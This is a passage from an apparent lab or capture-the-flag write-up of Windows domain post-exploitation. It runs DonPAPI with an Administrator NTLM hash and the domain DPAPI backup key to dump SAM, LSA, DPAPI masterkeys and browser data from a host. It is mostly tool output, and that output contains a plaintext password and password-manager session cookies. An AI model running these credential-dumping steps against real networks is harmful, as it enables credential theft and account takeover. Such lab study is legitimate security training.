XlQPK0MmRFz3iLOg6TyM_TGhPCK0XV6CghmmDXQ0ytJUnvPnVSKtfz1Sim-hQZWbi_KDSvBecV2dSw-ewxEm2YBGvQFqLLwUC49GHEnB1epgH9Io2ia5oJJoTqHE00zNp7a5tHNvVy_QegKooCl6RxaHENg4MNUV7a1U6r27PyT_cJ88FuTneb0_IyaNvQcOXgcneJTjK6pGi8bnaeznXnadi95SxVbYtfIQy8YGX-O-9iBqbBmeanuh8sMFPZjDeNc15qtFdvtwjyph9PsSxTJK1RRaVgeO4z7wZr-3NDu3z6TcqoYLQnr62thSeQ5Izudc90ElW4jGF0Cf4J9BV4IdWUB7EvEWhrg_rLbtARtOotX5LMb7Et-82q1Vcjuqd0kQwU4abEWuAZpmThonj0x7PVVahUsIZgi-ahGUhqSeJjpOTbEGko7seb2W6rzZaunvneUXW6UwyHLfuQihYb1uv1sT_3QJNa_xOtl-oqFjPH46LUuBgmJP80uVVSDAZgN6JR0OkKIpYe1HfSVv-EmNdAlac-BpJHdiN5hFqf2DtzxAT0nAZeOkem4_kmvrTRGUQAVqyMAOFP73jgU8xdVDT6rg1qOLJuWqxitlUvVOAf4uNYDgAC8JsLd4FYYxK-yW3W3aDa9D0JQgUkfSG-6hzsyeTIU4YIsr3xtYbjwTbIBGi3euwy02LthO_VWF1WyzpTEHfO3iDXANpIwcUQrf7A1sdeCje7lO_uRAECWBQoxerR6JWLu0OsdibRHbJmlkzXBAjkoRJcbspQ9w_CYTBi08gMMYpa0NL9lCdleE_ikp9tIq4L-Wxc6jEUIwAdeH2zcyrsSTr9fIjG06iQb1O30XUWG_Vil-kupzR6632Uu2qZ0i7Hh0A51dZ7MfKDV9QTq0K4Oy16VbZZgvtNuPEdYLycYRvDoqgxWa8DPdLC1Z2MyrdPN57LFIYiu7lfUURcQL4I1rz5HYv5_ZhD5uS_AEKn2Nhbkp82ubJRulgvwD8klDX3nD3nESgkDhDwunpoxBGFhN4cOtTg-ukhGhBIujSuXyQ2D6VG3GaMfmRiZrhJaQMGr4u52NP_e7Vu1IBH7m5MFM34pqvbMNpqP-N6hUv_ghmpe5Px5sWwnY45GwXwUTAuDi60P35tPJAdRg-p5a64mOGjqFKQx9jIPFNS_XZOKZ1E3RY5f8XkpKSB1wiAWGEqi3ublhQiJeDR6N3-6cdJVQF_76B8TCaUNzkcySPQBk57adMoA7eT0G0C-9nzP85ukghSw_o-4-0e9_UWAkbCZuDCKwX0T_Vwuniv_7gk00DRUtORCJRr070ubtNP_uiv-tbq1FNDte5D6WUs0dKTTT3qHNvR6iZ9gp0FcnpLGguS_9EejkaUWZgQZLxiYtFwOG_fWxKMrcVLVrifo2sM_Pj7kYQywrWIJs_mQWqWnpk2q536jNEGPhMImaQNzXUq3YD-94Z5PgqKik3twYgCFUDUrQOF7UYqZKRMtO02iUEbU36hfT0xu3LVj3rMFS-n1C9wAJdeR9EboebilOZz-3TyVT5jz3jE682U94Q0aN9Mk-FAiIqWIoNhkZayIRdwR8JTl3Owk0Xx9E-RUgyAmGbcvZRTiaHvV25tUTYAYoCJfMHmD-qWs8zUUoIJ8tMdQVVocazeciwIMqN-OvXrlQvkriDtlbCyqhNHTrgRSTlG-Rh0Sq2EtXz7eGFUkQtoTCjEGLVb5CugRzDB_4iiEmY54jB15fadNHO7R2XT3keF3zfiTh5w3yQa9RvIXWQOu9xuZvV7EEdu_INMeGokmU0flTctp-q2o5KopecqZDXd7ykOH4ERange51SqrshcJFneFuHhqyPLgtwsbzJSUIlkEdbfvPRDO1DI3fF3xxeMFll0CKGY8dJ08Crfedkk3WXb58dQae1LMn071K6ixXhmv-adnVM4ww1Q0_ugqpsmYCKmgMGAj4DBcCgQNe-1YU8DeSz66WmrFf-2aCeMkekmEdRbeYbMVcRpJkACEpWSx_zYPwWitm5LiudFmiJghoImrbhhKkOjbvyouN63parYZlm7zDbUIBLsqZ6V4Mv1J6Y7ZSAIpP5BWF29XA-B76Qo65pX-skZv8LL4qut5FgUZBXs9QPdKtDKhZ1PbtH29pPYybnOiATilOZjpxJre0CFeJ_TTGRQP9o4ZrZkdn_tXwfSBLD198Nlv3Y1UfQJG7K3OQKVSv0FtGb7B5xO3lGE35QipqHzgbmNILAwcXpyCYP9_1ZtOun4gnmM7FxzZsnUha0jH58lS6ZjJv_Dd_UH-MQHOUQ1R0PP4tx-4drSGrGvVao6HHN6pk2uw7BqAa6Q0aKWsMLnv6JEOyEgYW5C8HCmXrcNTihVHqNrxTaq1zQnQ5VbK1SNtZo1qhG-CqyMmbPm3lvX6IPIfr6kdA6OckKqewhCV5Gnyt1_rrA2lGQf9q8hfykB0OFTcpiXLuo8VJk-GPNJG2v4BsN_8eDYpNbjyiWfnVmlfETdqLVDRnRFMu_WOQI8a9qDg1_0v4H1y_TgPg62oG-PaLIjhjPrNxoTZfhdYBb-IXNA9ZPUdiaPPM2yYrEo6WaWw-SuUlvqgXmuC-bn23EuFgKHitWI6RJbWGPfRjzTr0UVYxVX0SLDRlmsaFGJ0r3bhwfLWYW7ulEZlj4bh4uknXzZdfto3K3bZ_XCHsDLXV8EhArDIWdhl9AWwoP15LCn00pPEzNIkNYo65rh_E8DGEDNRfDRDKSA379o9bs57eOuFJWTL3CkYIJp8gmZv7PdmowfOyqHylKTvPXb1R5NjzPmaJEbG6WtbkF3QeD5QXeCFYTYU4mS57NGaE_c7WcE_SruYMzYLjagPVZr8-j7_99bUkN-WZYsPXfyx7YaLu6diSXhjpb1Z4T66CpIW  
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pwm.ifrit.vl/WebClient - totp-status:open [172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pwm.ifrit.vl/WebClient - new-totp-status:open  
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pwm.ifrit.vl/WebClient - tagIsExpanded:null [172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pwm.ifrit.vl/ - ppsVersion2-lastVersion:8.2.1.0  
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pwm.ifrit.vl/ - ppsVersion2-createdDate:2024-02-07T18:36:48.807724+00:00 [172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - DomainWideId:55dfed7b-3826-4f1a-b062-9690120716b3  
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] pleasantpasswords.com/ - gCo:Unk [172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - VisitCount:1  
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - OriginalReferrer:https://pwm.ifrit.vl:10001/ [172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - OriginalUrl:https://pleasantpasswords.com/product-news?FeedID=dbd24e14-b93c-4373-bf76-45e176af66f0585&Version=9.0.6.0.Community Edition,5&Hash=5Sl762OQPm2MgcCRYiWLU/mYEUU=&ref=0f08eb9c-7fa4-46cd-8b1d-55d880502d52  
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - OriginalTimestamp:638565585173968314 [172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - SubdomainSharedSession:true  
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - __utma:159369083.361432803.1720961720.1720961720.1720961720.1 [172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - __utmz:159369083.1720961720.1.1.utmcsr=pwm.ifrit.vl:10001|utmccn=(referral)|utmcmd=referral|utmcct=/  
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - __utmt:1 [172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] .pleasantpasswords.com/ - __utmb:159369083.1.10.1720961720  
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] pwm.ifrit.vl/ - .PleasantIdentity.ApplicationCookie:H4Ex0QXIknfLqhTWQeJYaeCc4LXmpg-mxhSQysy9oZ-tJsfcgE1nyaEyQOs--tOmF0Na9KgM2ub3oPtKqy5jplV7aoDo4sfD2q01m9xbDN0mmqp5YeMq2ZrjI_oaYbP9wVF2bMuA0CtKQfCb18JaP7Z2bx5Cet62DkSd6KXmFl-ZdxJlpadQ5FZaMtO3oPRDxgfUnI8BcEUzu8wbzR3pd9BVBXJFNg4rPF9bFQRc_X-hIdhgA-4_p0c3Jp9opEtF1W-PyS8uhIE1odIaUqWY_okMUJ6J5icRRcT6Hz4HsGMz-fuS9vJFUmeCffeYFIeVQ-lZaVMWVd1-GKV6cN11Vs0rl56m6zwmHziS1GqXshUd4iau3-H4QVmD2xX1UpkGqM1V3OtJQDNc2DeSG5_X2IyeVP9Yr8R5wptD5-TTSUCInYiLWOL1npiNMCfyjquvFDqppuPlpMIOWbJM1ooabU9yas823DS0YmAo-cqNb-TQZMO_d7eevlFA1DCGqjPR8hEOiUeYkBydB17fSJkGXw5FoyxUe8bf6z-wRKkpJB8cHWjqyn6SaEqACgkhrBh65ArA7jgdUs7qmVU7T4cDwoMWBUTyVIuWDy0eMIM20WpG54bRacWsAtTIRakfLGZIKCCHLrI9Hs8-xyR8i5OX74ZvaJlTcVAuh3O4jlar540qmolYXiJ0yTzR0cUqrwfOgX3W6Z29f-4jval1pX2Kmd0wG1ibimUei1O1ICPs4shI6XmAZRaRPQ558_0tvvXsDrrSurwS52sSrgUF5tCz-NLtNRCV2g1gBcEXJiGsuXAuvQrXatst09DPkRFNpg86tYLOEXPGJgIGBLzsDzwHvH_5sCTPpjx0he6AUEnij_XwZAc0ytStn7ER7QudUgR7LterfpEg2y0zD3Pfzsc_XfsmPtbZx9Tdsr4SxCElY7lt0sl645WPuvqGVTh67KtFvZnjm4n2G8tEpEYPGLkKohTyRctWk4sDJxz3157iVZYMMyHiczV-UBwL3CANBjZSc-DIXgWMF69Z5a4I4ZdG2Yomy7Vkn16hFgSV4UsDnFptM8Fo4rtodBoedyetJ1uOLsd4SWgSPQaAolpjwiYI3AiQ0kFck7EOhQjzY7JoMWyA_uU5fb2qbEuLKOkrwHqtl_WYCMZz_nfle55-v0QZqhvW13OQ0tuLYFDgJlfH5tY_5FhjMWcNs-_-p5urGMvT1MW5V5_NvVtIZFXLdPM7kiDphv1FhqMqNg7vvqCIRWJ6gLY0x_e9J57Y6u9KmqBBxFHvLzbM3JB5wyxs3GgmoMa98aZe8LpgQv8R72C1gdHEP1S0qoyv3I24v3gFK6XqVPZqlv-wEMWVcchKU_w8BoKVDXe9r4GI2bmjcopkpHAFPeEzZNeWNRwu-Faa0IVRl33flwrJ4kGv5AXaTuj_X-GZNc9YEr5NlrCR2MtUF5WjrrPiKszewApjvQ6c9RtD9OUIhDXJcSzcj4hYgVN4YaU7rdfU8Lg1axuc8f85Y7zJ1IyyAICXsBcckcgCGKLwy3DCS1QSAcGaQxB0u3t1BX3uOZlJAPwnGVmUyi8oys3Y3NO6LMDXFz5uFz_YH2rkD56wj8uU_I4Di5rxYYYSaOuOR6FuR0fUYA-5Dq5SRK3lObf5o0u7OpqWPCE2eCjRUPdlQ4j9bqisBRiDJC6O5l7YbND6xI1jx5dmQ3JmUloIWHcMmkNyREjrvoITHIEmzqRqA1uAKXvB37yrZRq5YYW3uEH5KeIo7G76Yvl34oYuFiHQTCbUyVKIMOTfnU7ntBbXQWsGba-8sz1S4uhwE9LwYRGmQXtHeq3teriOACAO4ZzicbyouDzMGRyA8gJmZY09sQSYHVzSgBTOe7nlZXgAMKFoaP6mp5vIsaoMLcCuYdqqKhAvoDgUKRV_plOYndVTNiD6aHzbsxnpm8L8X7v8daADbJQ5n4MpOAbOIzZrAdKV5bR1tNLT8NzRXsgGwO9Zu5gIwI9wFTZ6mgP0Q_wcERjFGXaou7oP_-ZTZQHIS5t9BXh52AImmyf-avH63dnbWk_gaypzJIKntiuWZsPyLnfLTfKUVdQnwDwxVDrbmc-1KA0_YhOg0PbQBIY4evEz4Ecu80ItzimUMDhgeszBPsOEtVip5w3AMG6TUUNcXKF34xW0vfRKlcPiKVGmoSI1mZcctbX1vAfJ9oGTvbOMVlleXAXIDEga5PDjzkquFbVFsIqLZOsWSWBi2i8OzPSPO9G_yTHHAYGoDn4x-sgZIHjckDy1R9dFfJ18C6wnVITrNytg1HjJJp4YMiS09l2QL9rgl804Vr47_5NIK13uxEgPEW9nk2vSGneu_bQ4KHklVu3HP4KikLeb3cyHbvKMgiZEfevQ1nLviuddDe__drizSVd2-HcggQTegv38WL8L76orydtYCrJTnQz_2SVtsn4cBbn2Abnv-jz1LCGI2sArdSOOKzIDkKwBsBslcAdKkpXjsyPxAaST5BomBwJU_apL5FEoI-mv9yMU6QxpzvmBe_edFwEiZlx_Ol20_KmJcXoqNB23KEkOaIvEzoPaNUAfd1vllPwRBEOdDnne-dep8_bSxL-dl_WeZDV2JM0LkRnhLfcbKpuUY81-zQa0-QRkELEfrTOI8TNZwdTqeM_1npWsUvDruyx2YVI-LTMfZZLqLoL_tm6g6kBXwzCH4eRniItAn9XILhcG-Fk9lkFzE_OY3mUxY-bSG1v2WvjNS8-jxn4-Kg2V0OXV8DafeRKyFjBmR5hGRpzeBlxkxLLG-NDU8LHO-66BKG6Qb84yGd_H7V0FvRoAzVmIaxPGKcC87UrUnDbxH9A3CSSKVBL2XvW3aXdQkcvLBjIkLWCH15AWkohVyK8P2_8zZ_eYK2LtGfVLTQucyZuUg2Ia_ocVozA1gF_BoPI-l9BY22D13O2JO3IxP9nSOMzrxkVnCGQcZYN4HfXbS0ABJniyMtzJGK98biL2A4YIV-qbn9IPwRuVYrGaIfeUs2wEvOQfMABF1tMQK37_PGvqiVKYXuPAbX-iJC4Vb4fHVqQo3fvt98zOxuZLELADuVcxOjGBNS4H5-iT6torzJ_tFpfNHsrZZgpHfDVpCkqkDMzD0Yk8YXY2kNE5DVSp_v6BZBnEfkuv6bTRlQWKSwp0S16BJx9QJc-wAedgQTEYtJZum8L7Y8UD50Zt1tAkpKURuPlVS0-rbalemY7nOSRoesNdxOrhEAkjyLg2s50R_vvqNP2p2XkTCsTzk0LQ31evYD7T2VGgWoI5bMOu_sW_q1AuZcep1pbqekIcuauz9-Yv6MUDdu77qZEHTcV8KWwRQ5FA21JZcMADOvRB4SQaZFYEJdjN-FOI6sJ4MFmn_MJIAP-6mhJt5ZHxNOhfH_W3LoIiz7BdoqFlXuWm3uS9kO1bpfspKRIKAlswMMoxeMsmtD5OIkkiZtuHsEdGWLyCGdjmfaGWrM8SPUOjKzod53IdegEkxbGNdsbam7PKqxaYDJnREq0i9IIDjrjL76UzzjhqzJa8NzllU16tFG6EV0v8r65L3t15wn2zcgPG4PZCpY9HQHiqDxcge3HQwBHWtii_UT73CbJDFRIX29z3HmECiXB97NWOqxl2E8slfDE-9HJaKSc0Gf9T8v8bkNukhRM3QEmYTrSDmMPnOyQyzlWG9T46EbAuNCRNdARzWEK2RXWtuSgJ2QS67rjG6mFG [172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] pwm.ifrit.vl/ - ppsVersion2-lastVersion:8.2.1.0  
[172.16.41.225] [$] [Firefox] [patrick.ford] [Cookie] pwm.ifrit.vl/ - ppsVersion2-createdDate:2024-02-07T18:36:48.807724+00:00  
[172.16.41.225] [+] Dumping MobaXterm credentials  
[172.16.41.225] [+] Dumping MRemoteNg Passwords  
[172.16.41.225] [+] Dumping User's RDCManager  
[172.16.41.225] [+] Dumping SCCM Credentials  
[172.16.41.225] [+] Dumping User and Machine Vaults  
[172.16.41.225] [+] Dumping VNC Credentials  
[172.16.41.225] [+] Dumping Wifi profiles  
DonPAPI running against 1 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

Apparently, seems like by using the pvk(aka the domain backup key) it  will work and export the credentials from chrome from another user:

```bash
DonPAPI collect -d eu-ifrit.vl --dc-ip 172.16.41.14 -u Administrator -H :d05ff1e30127c8d43e6b1ab5d22454c7 -t 172.16.41.225 --fetch-pvk 
[💀] [+] DonPAPI Version 2.0.1
[💀] [+] Output directory at /home/millycash/.donpapi
[eu-ifrit.vl] [+] Loading eu-ifrit.vl domain backupkey from database...
[💀] [+] Loaded 1 targets
[💀] [+] Recover file available at /home/millycash/.donpapi/recover/recover_1775481392
[172.16.41.225] [+] Starting gathering credz
[172.16.41.225] [+] Dumping SAM
[172.16.41.225] [$] [SAM] Got 4 accounts
[172.16.41.225] [+] Dumping LSA
[172.16.41.225] [+] Dumping User and Machine masterkeys
[172.16.41.225] [$] [DPAPI] Got 13 masterkeys
[172.16.41.225] [+] Dumping User Chromium Browsers
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Password] - admin:PWywZsXnsSht62cK
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] .c.msn.com/ - ANONCHK:0
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] .c.bing.com/ - MR:0
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] .c.msn.com/ - MR:0
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] .msn.com/ - OptanonConsent:isGpcEnabled=0&datestamp=Sun+Jul+14+2024+05%3A56%3A49+GMT-0700+(Pacific+Daylight+Time)&version=202310.2.0&browserGpcFlag=0&isIABGlobal=false&hosts=&landingPath=https%3A%2F%2Fntp.msn.com%2Fedge%2Fntp%3Flocale%3Den-US%26title%3DNew%2520tab%26dsp%3D1%26sp%3DBing%26isFREModalBackground%3D1%26startpage%3D1%26PC%3DU531%26firstlaunch%3D1&groups=C0001%3A1%2CC0003%3A0%2CC0002%3A0%2CC0004%3A0%2CV2STACK42%3A0
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] .c.bing.com/ - SRM_B:1B80CF075EC468F228C4DBBB5FA96951
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] .c.bing.com/ - SRM_M:1B80CF075EC468F228C4DBBB5FA96951
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] .c.msn.com/ - SRM_M:1B80CF075EC468F228C4DBBB5FA96951
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] .msn.com/ - _EDGE_V:1
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] .msn.com/edge - pglt-edgeChromium-dhp:547
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] pwm.ifrit.vl/ - .PleasantIdentity.ApplicationCookie:_mzgYifYx6L28xTbuDnflHHcbaVJyuNi-bn_YV8AwBjskTp09ZKDUKDYkQ1SxKoJc2hbfRK9RrPm-n5NR0QTUZSdvJ8n88gnigrIfr97CZCom9hvhTBCBZCZ1UDPZeGUhfwvTNbvIBlqYfZnFzzWOGtmj8WXq4p2msUZG6POiMdqSG8QGnoPRV-4-XhcK2fY5fD_I5J8nacWn8H0cspfrxMZSX5grsS_GP2PZpRj99vadClKMvb4s4YMZ_fEbwQ6_WRCfmLG3iYg8zA5pF4JXCs83FRiXz3Kq2IlZUncgnIO4MNPqQU-cIrFu9O-_TdLRYMNkrc9T-PtVDzPfnTiZRtee9PeBWzxnQIUHaKJ3zm8KHTUYqxEYVCbbZtm4q0D7KpQKi8yq_9h2sRLkvZQqKvS0CrmeEoqYXqOafQA4-dGFFxxGmYwl9JI2mE4j7VtacN5NGNeZ_oIBRYIEN6bvP44dihbIvvW4Q-3P9HpxuuNOnrcwafqgcCw7e39lnLXPqSs4Yz221-VfBlVZ_f3qS70PDXtXq5ZVxepl3C4yVVq98zIP9U2e3wP6udHkwy4P0fnKdvbz69SRBMuTLEuz8KP2ri4MTWhxV2hv-XSf4aY1yyozZ44szNtXKEk9s4Rrt43mcq3IybEvSNUOYWna8WJE0mhma5cI_jZm4iJK9upPMu5iP-nPmrSpb0lvK9amWkjByUlsl0quFxfB_Fug7P5P4eLGOWiHuiQzTXTZOdZRqk5qN7LWUlEPjqrkU5WoRw0MhhuYJccCiM__ULDwzl5zPcJFyxPUKV4k4liX5GEPExJVLSTigZuk63HTjaeWBceEKs5jXOlpZn2cvPK6JybHj3aKbZnMbRKCxgf1EUm-9LotEWvPARLdUnYE1ccOka5aWlLYdCySqfp-FjbJ3YY3pmJRSJISPXHnvnl8TRLdmyTJYJbVibbln_2nb2qk5VolxrJYML0Oe9U4PkXUO4QX4vjXZm2Ou8KOtF20y3ajJIu1_lVGsyvgcIuVLZNxpWIYbwq65U1FxAmzmhQfoSXi1OWUOLGi5f1EyG4KBjk2mw-I_bU0BxYox677gNTB4HY52FdfGRmjxMUanu48cRA-PwStzAGefSeuhcuvsTzMzqBtolqhJ-KgNz0ZNpHS0v1twppGL8hhfhnKNg7UW5LzcoVRljzaoCa243TE82ZCt4jqtPBlMsWeuAd4b-w5dGdinUpYMcIzh4FPwa4OtZhbOdDXCg3Y_HPcqWcFj5jUUSk3crm_CNeddqe-M7gE21Xs9qTYbJE3t0Ubp5FKttSuMqjm6M0aWG0jPtbqJ03zP0x0WxuzcAMCjOhMQP-xbZJoyVStbCOrOPI4lDu9IAOSrcHJ9n-Ojouv0sTTtVyE-Yt44ysJ6qp3k3jtM7_EL6uBG3DdVB_q1yxr02d-cJN04dD1ahqktI27Lf2aitkszhqxl7AokvQypemJKcCXIBLlWEsH46ByrWjoGsf5Zotq0AUkRaLzU5NIZfGZ33rN7ERsQi-aqtZu4Bqn2z3T-6WYAKpQkghAn7JQJUaOZsGfHSTjdtR855JBq8xU1orLl8twTnmkw2Yp9GZgc1Uukm7bJclvstulcWE3b_vXL09U_6ypSc35u9CwrkdWyA4ey1K3OphGT-Pk6fP4yOr6-KqERDkgMOxOHjYG7DkeWz3ar2eUQHPzQLEJqVEn_dLo5kNt2cXr-vmPJZnHwhpwyKlnFm65ogUfWpFpuX-rL1yNaqWWOYDVyv8dLd-Raj80PlvPVKlrMwgu4SVtT-z--c2dQoktpP3e2LHuvqoOCvr2e4m2M7XJjLYM5kxHqr36DnWkAZy4XgB34gqlCRnzY09NcsXqzuzF8x0I3ASROnZkR4INk8G3DD5SsjqEBkZpR3oBQBJ5WceVcddqzVx0cHrKEidzgRDQ_HgPiLDblxgD4JQuWffyZRIFuV1ruoUS2bQds3zA-ztumAbOFZq-s9By2gHW4RTbZOQ_4ok4Sdt03fdDS5LHOqNcw55GSkIVJpB4PAIY1BRU3oZ6Ub4zl50GfbYTPjpPVYVBIlitW0MjLSvwIO9Jc1tr5F4V7V3C2Cz9ifprRHXlo0UOhK3ZEwsfhuZFNRlaksCR7XtMswZglZowYLYzJHC2lG5og4PpJs6fbhV1xd5BCLMlu69lW8cdwN34rrt7mFeZdfRZFWWo3Fn6GVYQXyNpLt1tDWNux1heLR8DnbGMIBo1d6nwqebP9uVvEksEHMsWEX5lUS4NXwDkcBOFJk2DEvHqTnBWv04dE4MFov3Rcd0nscrfkc-anGa-LYbfohedpuYCsp0HLnlGzspH1VfxIFL6wr8SZ9RTR7Vz2FnvmfPEPUjuDgViA95eQcBAeq8Zms4VkWSJv_cWY0MLdCtnomRYVKjkuklfNXwuUGyby0M9FD7vmOGzq-qLpQtpkMtP-L0bccm7PkQttHNWM6ZLZsJSh6-CKZOfJMw221R2iIsmufKwt0pahtbmqkmYpVC2a_TcyA1eaqKusc93AradYpK71l4B6vMv73YwuJYjgO61MSN4S2zAGxf59LCD9B-UahAPOCa6AZHEb2M7E6amQGT0gvuD1zSLBG1zYzIGF0yr9FPKuBx3QRaFZU-Ug2MjD79gvfFtvytPi9jnY9e_B0cJMIJHVitBO_ix1jnF4QOhqY5Pwy1yBTRBjUpztkf1JGbFDZgVA-soq4UaLfgvpKxu5_LXtGuHb-HCUYKyBTvQRn3kO7jHi_ztqo8tTTovoS3WLd1-nJud9gEN0608fwj3fcCzLBRkmaagD01DMB5S0kktaqL0wOJ34wes1HrkXsrnSpgbVlemyVsw5RQ4RXB9rU2un4Sl3_8KpAH7rTiuXkuop2op6QkPqhjPr627KGWBbEmgfzmdaG7eR04NIhpK3HrsOYSHzo4-NPkQo-e9PnzHdXzVkHZ_zji8Nqch5iJPTMjBRnd_aKAvr6lllbnB8UO7ijcyzMZNN8VAT-WcW0QEkhE2vy42gsDnpjfZWhiP20aUG3V2mxu_8TzbkwG6FjCG_cGKVuRVALTh20vgoKClY0yP4jYKnaSnwTXBuZwGHzN8OGk1EBDtHSG9oI0K5aRKSoxQjBw6WgWUnWT0lCKftbSWoqU0sh9mg7SRMEZVDHGDTP00p5RYYiLp40B9wDJw14hbJ5AqIZvPHbaY8hxeaQcArEG-XQR0TSjJQKRe5MTD1w6_-cQf0Y414gTCGU7UmRlg7LGjiicDolKvlo8y_9m5Ab5ZjmZA09nVrZItUcYEulCB6Aq2Y7f4bOiYjxgiw8PRm9YDWOKCKBFQXpkee4dkyqrzspUwfdzEzc_6PowEtW9QyBM63FYeBW7ZbbhfbiLpDaukt08P-udWYacqdxHyH4wBxBcldjq7A34sszDym1MQGiJ-mX546qLbBMUp_p9RDnvpxHEcXoF4nY5DhS0LPRT6rEjncFZpXn7Jn1fUYSoHivzUkZqexzT5KOjR0zfrq7m-JpO6UlQHCU42RVD_5HzGmoG8eZ9zudxbPl5sqYpQW9os3bV5w4QqdgjDCzj7KZIQ-9Kx4kTCe17wH379ndiFbvWa-ONYE7FJcp0CfrY5XuEW2_b2NHHVrho501_QD41bRZQr3kFdx_uAEFvwc2f0-giLi8TspgdEQsocp9lYxLYe7W_t0w-SPNP8cvOP3AC-TCEmUDJwi3h
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] .microsoft.com/ - MC1:GUID=a06f917ad50a42ff8c0fa82989804b6e&HASH=a06f&LV=202407&V=4&LU=1720961824445
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] .microsoft.com/ - MS0:f4676c3f9eac49caaad780f83979257d
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] .msn.com/ - USRLOC:BID=MjQwNzE0MDU1NjU1XzY5YTM2YzM3ODc2ODdiNjA3MTcyMDRjZDQyNmE0MWYyNWYwZDg1ZGZjMDVmOWI1YzViZDIwY2NmYzc2NGE0OGM=
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] apps.microsoft.com/ - ai_session:p1vagAfal025jHL2sAK1Py|1720961823471|1720961823471
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] apps.microsoft.com/ - ai_user:EwhWq7jYTsSnkmU9jUKEJa|2024-07-14T12:57:03.467Z
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] apps.microsoft.com/ - exp-session-id:772f0dbc-6d1b-4293-931d-e85a7f3e1f8f
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] pwm.ifrit.vl/ - ppsVersion2-createdDate:2024-02-07T18:36:48.807724+00:00
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] pwm.ifrit.vl/ - ppsVersion2-lastVersion:8.2.1.0
[172.16.41.225] [$] [MSEDGE] [patrick.ford] [Cookie] pwm.ifrit.vl/ - ppsVersion2-message:None
[172.16.41.225] [+] Dumping User and Machine Certificates
[172.16.41.225] [$] [Certificates] [SYSTEM] - SAN not found - SAN not found_1F4852E9C410F0BB.pfx
[172.16.41.225] [+] Dumping User and Machine Credential Manager
[172.16.41.225] [+] Gathering recent files and desktop files
[172.16.41.225] [+] Dumping User Firefox Browser
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - DomainWideId:03e83009-428e-4ee5-9b70-9912dd154d43
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] pleasantpasswords.com/ - gCo:Unk
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - OriginalReferrer:https://pwm.ifrit.vl:10001/
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - OriginalUrl:https://pleasantpasswords.com/product-news?FeedID=dbd24e14-b93c-4373-bf76-45e176af66f0585&Version=9.0.6.0.Community Edition,5&Hash=5Sl762OQPm2MgcCRYiWLU/mYEUU=&ref=0f08eb9c-7fa4-46cd-8b1d-55d880502d52
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - OriginalTimestamp:638565514736806270
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - SubdomainSharedSession:true
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - __utmt:1
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantsolutions.com/ - DomainWideId:96369c73-9778-4230-b3f7-ad9975695b3e
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - VisitCount:2
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - __utma:159369083.1402738889.1720954676.1720954676.1720954676.1
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - __utmz:159369083.1720954676.1.1.utmcsr=pwm.ifrit.vl:10001|utmccn=(referral)|utmcmd=referral|utmcct=/
[172.16.41.225] [$] [Firefox] [charlotte.cooper] [Cookie] .pleasantpasswords.com/ - __utmb:159369083.2.10.1720954676
